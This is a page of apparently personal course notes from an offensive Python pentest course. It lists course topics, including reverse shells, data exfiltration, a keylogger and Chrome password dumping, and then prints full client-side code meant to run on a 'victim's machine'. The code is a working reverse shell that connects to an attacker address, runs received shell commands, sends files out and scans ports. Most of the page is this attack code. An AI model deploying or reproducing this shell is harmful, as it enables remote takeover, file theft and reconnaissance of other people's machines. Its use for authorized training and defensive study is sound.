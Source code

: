 ```yaml
---
title: Coding a reverse shell that scans ports
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
  - port scanner
---
```


# Coding a reverse shell that scans ports

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).

## Client side

To be run on the victim's machine.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

import os
import socket
import subprocess

def transfer(s, path):
    if os.path.exists(path):
        f = open(path, 'rb')
        packet = f.read(1024)
        while packet:
            s.send(packet)
            packet = f.read(1024)
        s.send('DONE'.encode())
        f.close()

def scanner(s, ip, ports):
    scan_result = '' # scan_result is a variable stores our scanning result
    for port in ports.split(','):
        try: # we will try to make a connection using socket library for EACH one of these ports
            sock =  socket.socket()
#connect_ex This function returns 0 if the operation succeeded,  and in our case operation succeeded means that the connection happens whihch means the port is open otherwsie the port could be closed or the host is unreachable in the first place.
            output = sock.connect_ex((ip, int(port)))
            if output == 0:
                scan_result = scan_result + "[+] Port " + port + " is opened" + "\n"
            else:
                scan_result = scan_result + "[-] Port " + port + " is closed"
                sock.close()
        except Exception as e:
            pass
    s.send(scan_result.encode())
def connect():
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('192.168.0.152', 8080))
    while True:
        command = s.recv(1024)
        if 'terminate' in command.decode():
            s.close()
            break
        elif 'grab' in command.decode():
            grab, path = command.decode().split('*')
            try:
                transfer(s, path)
            except:
                s.send(str(e).encode())
                pass

        elif 'scan' in command.decode(): # syntax: scan 10.10.10.100:22,80
            command = command[5:].decode() #slice the leading first 5 char 
            ip, ports = command.split(':')
            scanner(s, ip, ports)
        else:
            CMD = subprocess.Popen(command.decode(), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
            s.send(CMD.stdout.read())
            s.send(CMD.stderr.read())

def main():
    connect()

main()

```